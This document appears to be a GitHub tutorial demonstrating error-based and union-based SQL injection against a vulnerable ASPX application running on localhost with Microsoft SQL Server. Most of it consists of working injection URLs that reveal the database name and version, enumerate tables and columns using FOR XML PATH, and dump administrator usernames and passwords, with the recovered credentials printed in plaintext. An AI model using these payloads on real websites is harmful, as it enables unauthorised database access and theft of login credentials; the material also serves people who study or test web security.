 # MSSQL-Injection

Now let's get started the ERROR BASED INJECTION on MSSQL server, MSSQL it's Microsoft SQL Server in this post i will use error based injection with malicious interogation for manipulation database and extract administrator credentials. I will use a vulnerable aspx app in localhost for this example. I do not support these illegal activities !
```sql
 http://localhost/Product.aspx?Id=13 and 1=db_name()--
```

Using this simple query we will see the name of the database.

![Screenshot from 2024-01-25 10-31-38](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/d42f8d12-0fd2-41e6-a6db-3c795ab06f89)

Now the database name is "chemtraders" 
Next step i want to see the DB and OS version for this i will use this query:

```sql
http://localhost/Product.aspx?Id=13 and @@version=1--
```

and output is:

![Screenshot from 2024-01-25 10-34-56](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/94adade4-c58f-49d4-99df-0dcf67fe0c66)

We see "Microsoft SQL Server 2012 ( SP1 )"

Now let's get extract Tables name and Columns from DB with one query:
```sql
http://localhost/Product.aspx?Id=13 and 1=(select+table_name%2b'::'%2bcolumn_name as t+from+information_schema.columns FOR XML PATH(''))--
```
and output is:

![Screenshot from 2024-01-25 10-54-54](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/3fb8189d-d4c9-4e23-b7b4-f692acc6eb26)

Ok now are interested:

AdminLogin ( Table )
UserName ( Column )
Password ( Column )

Let's get dump from this Columns ( UserName and Password ):
```sql
http://localhost/Product.aspx?Id=13 and 1=(select+Password,username+from+AdminLogin FOR XML PATH(''))--
```
Output is:

![Screenshot from 2024-01-25 11-01-25](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/7704a537-2f76-4bcf-a1e1-886dd15186d4)

```plaintext
Username: admcheter
Password: bweb@chem#123$tre ( this is plaintext )
```

This query it's in Error Based but it is possible and with Union Select

Let's see how we do this

```sql
http://localhost/Category-Product.aspx?id=-6' union select 1,(select table_name%2b'::'%2bcolumn_name as t from information_schema.columns FOR XML PATH('')),3-- -
```

![Screenshot from 2024-01-25 11-11-32](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/41178b9a-951e-4bee-b8e4-dace0a350e9b)

Now we see UserInfo, username and Password.

For this situation i want to extract Administration credential form this columns
```sql
http://localhost/Category-Product.aspx?id=-6&' union select 1,(select User_Name,Password from UserInfo FOR XML PATH('')),3-- -
```
![Screenshot from 2024-01-25 11-16-25](https://github.com/LinuxDestroy/XML-PATH-Injector/assets/26278128/abf6e991-823d-42c7-a440-4c6b81441939)
```plaintext
Username: Admin
Password: simplifi@123 ( plaintext )
```
In this query, the FOR XML PATH('') clause is used to concatenate the query results into XML format and to obtain a scalar result.
In practice, this allows the obtained data to be retrieved as a single string, easily manipulable and usable within the SQL injection. The use of FOR XML PATH('') is not necessary in all SQL injection queries, but it can be used to format the results in a way that allows for efficient exploitation of the vulnerability.

We are done for tested my MSSQL Server.








